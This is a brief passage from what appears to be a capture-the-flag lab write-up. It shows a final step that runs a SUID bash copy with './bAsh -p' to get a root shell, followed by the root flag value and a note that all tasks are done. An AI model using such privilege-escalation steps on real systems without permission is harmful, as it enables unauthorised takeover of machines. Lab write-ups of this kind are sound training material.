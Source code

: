 4. **Get root shell:**
   ```bash
   ./bAsh -p
   ```
   <img src="./images/root_access.png" alt="Root Access" width="600"/>

---

## 🏆 Root Flag

- **Flag:**  
  ```
  3a4225cc9e85709adda6ef55d6a4f2ca
  ```
  <img src="./images/root_flag.png" alt="Root Flag" width="600"/>

---

# 🎯 Conclusion

- All tasks completed successfully!
